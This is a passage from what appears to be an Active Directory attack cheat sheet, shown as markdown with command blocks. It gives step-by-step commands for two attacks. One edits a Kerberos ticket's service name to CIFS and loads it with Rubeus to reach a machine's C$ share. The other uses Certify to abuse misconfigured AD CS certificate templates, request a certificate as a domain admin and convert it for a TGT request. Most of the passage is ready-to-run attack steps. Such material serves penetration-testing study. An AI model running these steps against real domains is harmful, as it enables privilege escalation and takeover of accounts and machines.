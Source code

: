 ````
- The Servicename is not valid for our use - we want it to be for CIFS.  This can be easily changed, because as we saw in the constrained delegation alternate service name demo, the service name is not in the encrypted part of the ticket and is not "checked".
- Open it in ```Asn1Editor```.  Find the two instances where the GENERAL STRING <COMOTERNAME>$" appears.
- Double-click them to open the Node Content Editor and replace these strings with "cifs".  We also need to add an additional string node with the FQDN of the machine. Right-click on the parent SEQUENCE and select New.  Enter 1b in the Tag field and click OK.  Double-click on the new node to edit the text.
- First one should be CIFS, second one the FQDN of the machine.
 
![afbeelding](https://user-images.githubusercontent.com/43987245/159697361-dab68723-e4d7-4966-9e6c-fad2f658457b.png)

#### Load the ticket
```
.\Rubeus.exe /ticket:<TICKET BASE64>
.\Rubeus.exe /ticket:<FILE TO KIRBI FILE>
```
 
#### Execute ls on the computer
```
ls \\<COMPOTERNAME FQDN>\C$
```
 
## Active Directory Certificate Services
- Whitepaper https://www.specterops.io/assets/resources/Certified_Pre-Owned.pdf
- https://github.com/GhostPack/Certify

#### Find AD CS Certificate authorities (CA's)
```
.\Certify.exe cas
```

### Misconfigured Certificate Templates
- AD CS certificate templates are provided by Microsoft as a starting point for distributing certificates.  They are designed to be duplicated and configured for specific needs.  Misconfigurations within these templates can be abused for privilege escalation.

#### Find misconfigured certificate templates
- Look for ```Client Authentication``` set and who has ```Enrollment Rights``` and if ```Authorization Signatures Required``` is enabled.
- This configuration allows any domain user to request a certificate for any other domain user (including a domain admin), and use it to authenticate to the domain
```
.\Certify.exe find /vulnerable
```

#### Request certificate for a user
- For example domain admin
```
.\Certify.exe request /ca:<CA NAME> /template:<TEMPLATE> /altname:<USERNAME>
```
- Save cert + key in a cert.pem file

#### Transform cert to pfx
- Set a password, password
```
openssl pkcs12 -in cert.pem -keyex -CSP "Microsoft Enhanced Cryptographic Provider v1.0" -export -out cert.pfx
```

#### Rubeus ask TGT using the certificate
```
cat cert.pfx | base64 -w 0
````